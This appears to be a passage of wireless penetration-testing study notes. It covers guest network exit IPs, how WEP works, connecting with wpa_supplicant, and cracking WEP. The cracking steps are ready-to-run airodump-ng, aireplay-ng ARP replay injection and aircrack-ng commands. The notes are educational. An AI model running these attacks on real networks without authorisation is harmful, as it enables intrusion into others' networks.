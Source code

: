 This represents a vulnerability and could give to an attacker the ability to get a first foothold.

### Guest Public IP VS Corporate Public IP
It is important to have a different exit public IP address for any guest regarding the internal network IP.  

--> Validate the public IP address from any guest network and internal network is different.  

### Fake access point with internet access


# WEP
- Wired Equivalent Privacy
- Uses Rivest Cipher 4 (RC4) Stream cipher
- **40** Bit or **104** Bit shared key + **24** Bit IV concatenated to the Shared Key
  --> **64** or **128** Bit encryption key

<img src="./images/wep.jpg" width="700"/>

<img src="./images/mpdu.png" width="700"/>

### Connecting using wpa_supplicant

```
wpa_supplicant -i wlan0 -c wep.conf
wpa_supplicant -B -i wlan0 -c wep.conf
```

wep.conf
```
network={
    scan_ssid=1
    ssid="WepCorpo"
    key_mgmt=NONE
    wep_key0="Password123"
    wp_tx_keyidx=0
}
```

### Cracking WEP
- 250,000 IVs for cracking 64 bit WEP Key
- 1,500,000 IVs for cracking 128-bit WEP Key

--> You can do passive IV capture (but it will take time)  
OR
--> Inject traffic to force more packets and more IVs (Replay Attack) 
- Capture ARP packet and send to AP, it will send reply.

```
sudo airodump-ng -i wlan1 --bssid 14:D6:4D:26:73:96 -w wep
sudo aireplay-ng -3 -b 14:D6:4D:26:73:96 -h 66:B9:B8:1D:EC:66 wlan1
sudo aircrack-ng wep-01.ivs
```
